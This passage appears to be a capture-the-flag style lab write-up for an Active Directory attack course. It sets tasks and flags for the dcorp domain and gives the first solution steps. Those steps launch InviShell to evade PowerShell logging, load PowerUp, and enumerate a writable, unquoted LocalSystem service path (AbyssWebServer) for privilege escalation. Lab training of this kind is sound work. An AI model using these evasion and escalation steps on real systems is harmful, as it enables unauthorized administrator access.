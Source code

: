 ```yaml
---
icon: vial
---
```


# 5 - Learning Object 5️

## Tasks



1 - Exploit a service on dcorp-studentx and elevate privileges to local administrator

2 - Identify a machine in the domain where studentx has local administrative access

3 - Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server

Flag 5 \[Student VM] - Service abused on the student VM for local privilege escalation  🚩

Flag 6 \[Student VM] - Script used for hunting for admin privileges using PowerShell Remoting 🚩

Flag 7 \[dcorp-ci] - Jenkins user used to access Jenkins web console 🚩

Flag 8 \[dcorp-ci] - Domain user used for running Jenkins service on dcorp-ci 🚩



## Solutions

### 1 - Exploit a service on dcorp-studentx and elevate privileges to local administrator

Start InviShell and PowerUp

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerUp.ps1
```

Now we need to exploit a service and elevate privileges to local administrator, using `Invoke-AllChecks` method we're able to display all services vulnerable with "CanRestart: True", "Check: Modifiable Services", and"Unquoted Service Paths" with relatives abuse function to exploit them

```powershell
Invoke-AllChecks
```

```powershell
ServiceName    : AbyssWebServer
Path           : C:\WebServer\Abyss Web Server\abyssws.exe -service
ModifiablePath : @{ModifiablePath=C:\WebServer; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AbyssWebServer' -Path <HijackPath>
CanRestart     : True
Name           : AbyssWebServer
Check          : Unquoted Service Paths

ServiceName    : AbyssWebServer
Path           : C:\WebServer\Abyss Web Server\abyssws.exe -service
ModifiablePath : @{ModifiablePath=C:\WebServer; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AbyssWebServer' -Path <HijackPath>
CanRestart     : True
Name           : AbyssWebServer
Check          : Unquoted Service Paths
```